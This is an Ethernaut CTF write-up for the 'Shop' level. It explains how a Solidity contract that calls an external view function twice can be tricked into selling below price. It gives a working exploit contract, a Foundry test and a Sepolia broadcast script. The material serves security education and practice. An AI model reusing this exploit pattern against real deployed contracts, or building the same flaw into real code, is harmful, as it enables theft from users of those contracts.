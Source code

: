 ## 👾 21. Shop

<br>


### tl; dr

<br>

* in this challenge we explore restrictions of `view` functions through an `interface`, similarly to level `11` for `Elevator`.
  - now, the goal is to find a way to buy items from a `Shop` contract for a lower price when compared to sold items.

<br>

* remember that a `view` function **[cannot modify the state of the contract](https://docs.soliditylang.org/en/v0.8.15/contracts.html#view-functions)**. 
  - for instance, it cannot write to state variables, create other contracts, emit events, send ether with `call()`, use any low-level calls, use `selfdestruct()`, call functions that `pure` or `view`, or use inline assembly with certain opcodes.


<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/2032b1e7-77f6-4481-8037-54031ebcb435">
</p>



<br>

```solidity
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```


<br>

---

### discussion

<br>

* the first part of this contract is the `interface Buyer` that defines as `external view` function, `price()`, representing the amount of `wei` a `Buyer` must pay:
<br>

```solidity
interface Buyer {
  function price() external view returns (uint);
}
```

<br>

* then, in the `Shop` contract, we have two state variables:

<br>

```solidity
uint public price = 100;
bool public isSold;
```

<br>

* and a `public` function `buy()`, where the `price()` is being called twice. 
  - this is our vulnerability, as one should never trust external inputs (*e.g.,* coming from the `interface` implementation):

<br>

```solidity
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```

<br>

* in other words, `Shop` expects `Buyer` to return the price it is willing to pay to buy the item, believing that the price would not change the second time it called, as it is a `view` function.
<br>

* we will use this as our exploit, querying the value of `isSold()` and returning a different result based on our needs:
  - the first time `price()` is called, it returns `>100` to enter the loop.
  - then, the second time, it can return anything lower.


----

### solution

<br>

* we craft the following exploit at `src/21/ShopExploit.sol`:

<br>

```solidity
contract ShopExploit is Buyer {

    Shop private level;

    function price() external view returns (uint256) {
        return level.isSold() ? 0 : 1337;
    }

    function run(Shop _level) public {
        level = _level;
        level.buy();
    }
}
```


<br>

* check `test/21.Shop.t.sol` for testing this solution::

<br>

```solidity
contract ShopTest is Test {

    Shop public level = new Shop();

    address instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {

        vm.prank(instance);
        
    }

    function testShopHack() public {

        vm.startPrank(hacker);
        console.log(level.isSold());
        ShopExploit exploit = new ShopExploit();
        exploit.run(level);
        assert(level.isSold());
        vm.stopPrank();
        
    }
}
```

<br>

* running:

<br>

```shell
> forge test --match-contract ShopTest -vvvv    
```



<br>

* then, submit the solution with `script/21/Shop.s.sol`:

<br>

```solidity
contract Exploit is Script {

        Shop level = Shop(instance); 
        address instance = vm.envAddress("INSTANCE_LEVEL21");
        address hacker = vm.envAddress("PRIVATE_KEY"); 
        
        function run() external {

            vm.startBroadcast(hacker);
            ShopExploit exploit = new ShopExploit();
            exploit.run(level);
            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/21/Shop.s.sol --broadcast -vvvv --rpc-url sepolia
```



<br>

----


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



